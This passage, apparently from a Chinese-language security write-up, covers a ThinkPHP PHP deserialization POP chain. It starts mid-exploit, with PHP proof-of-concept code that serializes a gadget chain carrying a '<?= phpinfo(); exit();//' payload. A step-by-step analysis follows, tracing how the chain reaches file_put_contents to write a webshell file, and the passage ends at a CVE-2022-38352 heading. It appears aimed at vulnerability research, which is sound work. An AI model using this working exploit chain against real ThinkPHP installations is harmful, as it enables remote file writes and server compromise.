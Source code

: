 ```bash
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}
```

### 分析

入口点在 think\\Model\\的**destruct() 方法进入 save() 方法进入 insertData() 方法进入 checkAllowFields() 方法进入 db() 方法执行$query->table($this->table . $this->suffix);语句此时开始进入链子了，拼接对象和字符串造成 toString 魔术方法调用，think\\route 的 Url.phpif 语句一直进不去，最后跑到  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
然后进入 getDomainBind() 方法，这里设置了 domain 的值，直接进入了 Output.php 的**call() 方法：call\_user\_func\_array(\[$this, 'block'\], $args);  
Output.php 的 block() 方法->writeln() 方法  
$this->writeln("<{$style}>{$message}</$style>");  
Output.php 的 writeln() 方法->write() 方法： 
$this->write($messages, true, $type);  
此时 message 为<getdomainbind>write() 方法  
$this->handle->write($messages, $newline, $type);  
$this->handle 被设置的 League\\Flysystem\\File，调用它的 write() 方法</getdomainbind>

```bash
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}
```

$this->filesystem 被设置的 think\\session\\driver\\File，调用它的 write() 方法：最后执行 file\_put\_contents 写入木马文件

## CVE-2022-38352
